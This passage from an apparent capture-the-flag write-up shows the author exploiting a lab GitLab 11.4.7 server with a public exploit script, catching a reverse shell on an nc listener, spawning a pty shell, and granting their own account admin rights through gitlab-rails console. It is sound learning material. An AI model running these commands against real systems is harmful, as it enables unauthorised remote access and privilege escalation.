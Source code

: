 
So I supply the script with the needed arguments, run `nc -lvnp 9001` on another shell tab, and execute the script:
```terminal
$ python3 49334.py -u y00ser -p password123 -g http://10.10.10.220 -l 10.10.14.2 -P 9001                                                                                                                                             
[+] authenticity_token: UURyorKkxmg8KQUkog7skIQdeZjNQv4qATa83Enyb7VaC+97Op4Bcz4zX/+NLei82VB96whWqpaXApdGIMlQGw==
[+] Creating project with random name: project4017
[+] Running Exploit
[+] Exploit completed successfully!
```

And on my `nc` tab, I see the connection, but no output. I run some simple commands and see if python is installed on the system. Then I create a better looking shell.

```terminal
$ nc -lvnp 9001                                                                 
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.220] 42046
whoami
git
which python
which python3
/opt/gitlab/embedded/bin/python3
/opt/gitlab/embedded/bin/python3 -c 'import pty; pty.spawn("/bin/bash")'
git@gitlab:~/gitlab-rails/working$ 
```

I tried make the shell more stable by backgrounding the session, running `stty raw -echo` and returning to the process, but my entire bash screen would freeze so I abandoned trying to get it to work. So I guess I won't have tab completion. That's okay.

---

## **User**

Initally I believed this was going to be similar to **Laboratory**, so I used what I had learned and made my user an admin. Using `gitlab-rails console`:

```terminal
gitlab-rails console
-------------------------------------------------------------------------------------
 GitLab:       11.4.7 (98f8423)
 GitLab Shell: 8.3.3
 postgresql:   9.6.8
-------------------------------------------------------------------------------------
Loading production environment (Rails 4.2.10)
irb(main):001:0> user = User.find_by(username: 'y00ser')
user = User.find_by(username: 'y00ser')
=> #<User id:7 @y00ser>
irb(main):002:0> user.admin = true
user.admin = true
=> true
irb(main):003:0> user.save!
user.save!
=> true
```

